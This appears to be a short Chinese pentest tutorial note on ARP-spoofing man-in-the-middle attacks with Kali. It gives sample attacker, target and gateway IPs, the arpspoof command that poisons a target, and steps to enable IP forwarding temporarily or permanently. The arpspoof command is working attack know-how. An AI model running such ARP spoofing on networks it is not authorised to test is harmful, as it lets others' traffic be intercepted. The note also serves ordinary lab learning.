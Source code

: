 # arpspoof流量转发
---

攻击者网卡:eth0  
攻击者ip: 192.168.1.2  
目标ip: 192.168.1.3  
网关ip: 192.168.1.1  

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

注：
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```
* 这条命令功能是ip转发，每次使用之前都需要执行，每次重启终端其内容会自动变为0，也就是说临时开启ip转发。
.
* 如果需要永久开启ip转发需要修改/etc/sysctl.conf文件，修改下面一行的值：  
```bash
net.ipv4.ip_forward = 1
```
kali2016.1 默认在28行  
修改后执行下面的命令来使修改生效：  
```bash
sysctl -p /etc/sysctl.conf
```
或重启电脑后生效。  
进行了上面的配置后，IP转发功能就永久使能了。 

* Linux系统缺省并没有打开IP转发功能，要确认IP转发功能的状态，可以查看/proc文件系统，使用下面命令：
```bash
cat /proc/sys/net/ipv4/ip_forward
```

如果上述文件中的值为0,说明禁止进行IP转发；如果是1,则说明IP转发功能已经打开。  
  



